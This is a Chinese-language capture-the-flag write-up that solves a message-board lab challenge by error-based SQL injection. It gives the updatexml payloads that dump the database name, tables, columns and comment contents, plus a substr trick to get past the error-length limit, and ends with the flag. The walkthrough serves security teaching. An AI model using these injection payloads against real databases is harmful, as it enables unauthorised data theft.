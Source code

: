 # Week2 Word-For-You(2 Gen) 200



#### 0、知识点与工具

>   sql 注入

>   sql报错注入

>   工具：burpsuite

#### 1、页面

>   有两个页面，一个页面用于留言，也就是写入sql‌
>   ‌另一个页面用于查询留言，也就是触发注入的sql

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117185718.png) ![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117185757.png)





>   然后发现留言板查询页面无法看到留言的内容，只能看到查询是否成功

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117190746.png)







‌



#### 2、分析一下

>   首先根据这俩个页面的输入框，可以猜测后台的sql代码应该为：

‌

```
// 留言板
insert into 表名(你的名字，他的名字，内容) value();

// 查询留言
select * from 表名 where 名字 = '我们的传入的值';
```







‌

>   因为只显示是否查询成功，所以可以想到报错注入或者bool盲注‌
>   ‌由于bool盲注比较麻烦，所以首先尝试报错注入

‌

```
// 假如让ta的名字这一栏的值为：1'||updatexml(1,concat(0x7e,database()),1)#
// 留言内容随便，那么留言查询的sql就会变成
select * from 表名 where 名字 = '1'||updatexml(1,concat(0x7e,database()),1)#';
```







‌

>   显示的结果成功的爆出了数据库名称

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/675e2530aa6cac276a1e614794d411c.jpg)





‌

>   爆出了数据库那么接下来爆个表吧

‌

```
1'||updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'wfy')),1)#
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/1686dad9f4a761d2089035dddf0db4b.jpg)







‌

>   然后爆个字段吧

‌

```
1'||updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='wfy_comments')),1)#
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/2d4d96506fc2226df7c3ce6f3d36188.jpg)





‌

>   获取字段内容

‌

```
1'||updatexml(1,concat(0x7e,(select group_concat(text,user,name,display) from wfy_comments)),1)#
```





‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/840c1cd52f3a523a053d358250a989f.jpg)





‌

>   可以发现并没有显示flag，这是因为报错回显的内容最多为32个字符，超出部分就不会显示了，所以得加个substr字符串截取，或者写个脚本，‌
>   ‌substr函数不能加在group_concat()的前面，虽然会返回一个字符串但是放这里就有语法错误，但是在本地的测试到不会报错，奇奇怪怪

‌

```
1'||updatexml(1,substr(concat(0x7e,(select group_concat(text) from wfy_comments)),160,182),1)#'
```







‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/201792d828e3b0deb140931e30d4261.jpg) ![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/f0ced2833c3e0c90c39652e3235f2dc.png)



‌

>   flag{Ju4t_m2ke_some_err0rs}







462 words